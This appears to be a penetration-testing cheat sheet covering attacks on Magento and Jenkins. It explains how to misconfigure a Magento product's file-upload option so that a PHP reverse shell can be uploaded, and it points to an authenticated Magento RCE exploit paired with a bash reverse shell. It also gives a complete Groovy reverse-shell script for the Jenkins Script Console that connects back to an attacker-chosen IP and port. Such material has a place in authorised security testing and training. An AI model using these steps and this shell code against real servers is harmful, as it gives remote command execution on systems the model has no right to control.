 # WordPress

# Magento 
## Create a Misconfiguration 
1. Go to "Manage Products" (from catalog menu)
2. Choose a Product / Create a Product
3. Click "Add New Option"
- Fill Out:
  - Title: TITLE
  - Input Type: File
  - Is Required: Yes
  - Allowed File Extensions: 
4. Back to the Website: Click the item and add a php reverse shell
## Magento CE < 1.9.0.1 - (Autenticated)  Remote Code Execution
Search for new version on github and execute with a bash reverse shell call
# Jenkins
An open-source automation server used for continuous integration and continuous delivery. It automates the building, testing, and deployment of software applications by integrating various DevOps tools and pipelines. Jenkins supports a wide range of plugins that extend its functionality, making it highly customizable for different workflows and environments.
## Resources
- [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
- [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)
## Jenkins Script Console 
1) Navigate to the Jenkins Script Console:
  -  http://<IP>:<PORT>/script
  -  Manage Jenkins > Script Console
2) Run Groovy Reverse Shell Script
```
String host="<IP>";
int port=<PORT>;
String cmd="cmd.exe or /bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

